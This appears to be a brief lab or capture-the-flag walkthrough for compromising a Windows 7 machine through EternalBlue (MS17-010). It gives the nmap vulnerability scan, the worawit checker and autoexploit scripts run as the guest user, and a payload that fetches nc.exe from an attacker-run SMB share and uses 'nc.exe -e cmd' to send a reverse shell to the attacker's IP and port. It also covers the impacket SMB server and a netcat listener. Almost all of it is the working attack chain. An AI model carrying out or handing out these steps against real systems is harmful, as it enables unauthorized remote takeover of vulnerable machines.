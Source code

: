 1. Enumerate with nmap

2. After seeing that the machine is a Windows 7 you can try to look for an eternal blue with nmap and .nse scripts. usage: "nmap -p __{PORT}__ __{IP}__ --scripts "vuln and safe""

3. According to nmap the machine is susceptible to EternalBlue attack so you can go to worawit MS17-010 exploit in order to get a python2 script to exploit the vuln automatically

4. Install everything needed to run the checker.py with "python2 -m pip install __{impacket}__"

5. Run the checker.py program with the username set to __guest__ in order to not get your connection rejected

6. Run the zzz_autoexploit.py with the username also set to guest and the command to execute after exploit to "cmd /c \\\\__{LOCAL-IP}__\\__{FOLDER}__\\nc.exe -e cmd __{LOCAL-IP}__ __{PORT}__"
As you're on a powershell, this command tells windows to open a cmd and run the code after the /c flag
    - \\\\__{IP}__\\__{FOLDER}__\\nc.exe : Tells windows to search the file "nc.exe" in the network share in __{IP}__ in the folder __{FOLDER}__
	- "-e cmd __{LOCAL-IP}__ __{PORT}__" : Tells the nc app to start cmd and recieve and send: output, input and errors to __{IP}__ __{PORT}__ specified

7. Download netcat for windows in order to serve it to the "client" that is going to ask for it with the eternal blue exploit

8. Start in your local machine the smb server with impacket. usage: impacket-smbserver __{FOLDER}__ __{NETCAT-PATH}__ -smb2support
    __{FOLDER}__ : It's going to be the name of the server we're setting the client later asks for (previously set in the exploit) when entering the network share __{LOCAL-IP}__
    __{NETCAT-PATH}__: It's has to be the local folder with the nc.exe eg.: $(pwd) if nc.exe is in the folder you're currently at.
	-smb2support : It's used if you want to make your server smb2 supportive

9. Start the local server the victim's machine will try to connect when executes the command with the netcat previously downloaded from the network share. Usage: "nc -lvnp __{PORT}__"
- -l : Set the port to a listen state
- -v : Verbose 
- -n : Don't apply dns resolution
- -p : Port:

10. Send the exploit to the machine and recieve full control in the netcat listening service previously set.